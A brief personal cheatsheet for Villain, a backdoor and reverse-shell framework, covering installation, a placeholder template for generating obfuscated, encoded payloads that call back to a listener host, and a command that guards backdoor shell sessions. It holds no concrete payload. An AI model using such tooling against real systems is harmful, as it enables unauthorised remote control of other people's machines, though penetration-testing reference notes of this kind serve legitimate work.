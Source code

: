 ```yaml
---
title: Villian Cheatsheet
updated: 2023-07-19 14:02:51Z
created: 2023-07-19 04:05:24Z
---
```


# Installation:
sudo apt update&&sudo apt install gnome-terminal
git clone https://github.com/t3l3machus/Villain
cd ./Villain
pip3 install -r requirements.txt

# Generating Payloads

## Main Logic: 

```
generate payload=<OS_TYPE/HANDLER/PAYLOAD_TEMPLATE> lhost=<IP or INTERFACE> [ obfuscate encode ]
```

- 

## Session Defender
Villain has a function that inspects user issued shell commands for input that may cause a backdoor shell session to hang (e.g., unclosed single/double quotes or backticks, commands that may start a new interactive session within the current shell and more). Use the `cmdinspector` command to turn that feature on/off.  

Usage: 
```
cmdinspector <ON/OFF>
```